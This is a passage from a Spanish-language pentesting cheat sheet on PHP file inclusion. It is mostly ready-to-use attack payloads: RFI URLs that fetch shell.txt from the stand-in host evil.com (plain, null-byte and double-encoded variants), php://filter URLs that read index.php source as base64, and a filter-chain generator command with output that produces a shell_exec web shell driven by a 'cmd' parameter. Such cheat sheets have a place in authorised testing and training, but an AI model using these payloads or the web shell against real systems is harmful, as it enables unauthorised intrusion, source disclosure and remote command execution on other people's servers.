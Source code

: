 Ya que eliminara los `..` y la `/`...

#### Remote File Inclusion (RFI)

> Tecnica sin filtros

```
http://example.com/index.php?page=http://evil.com/shell.txt
```

Se utiliza para descargarte una archivo de tu maquina `host` e inyectar un `payload`...

> Tecnica con `Null Byte`

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

> Tecnica con doble codificacion

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### LFI / RFI usando wrappers

> Tecnica `Wrapper php://filter`

Utilizando la llamada de `php` para ejecutar lo que le pongamos, podremos hacer lo siguiente...

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

El mas utilizado es el siguiente...

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

Aqui lo que estamos haciendo es que nos muestre de forma codificada en `Base64` el contenido del `index.php` en este caso para que al decodificarlo veamos su contenido y asi podremos ver las funciones de `php` que se utiliza, a parte se puede utilizar con `home`, `user`, etc... Dependiendo del caso...

> Tecnica para automatizar todo esto

Para automatizar todo lo anterior podemos utilizar un script que te genera lo que tienes que indtroducir en la `URL` en el apartado despues del `=`...

URL\_Script = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py

Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```
$ python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```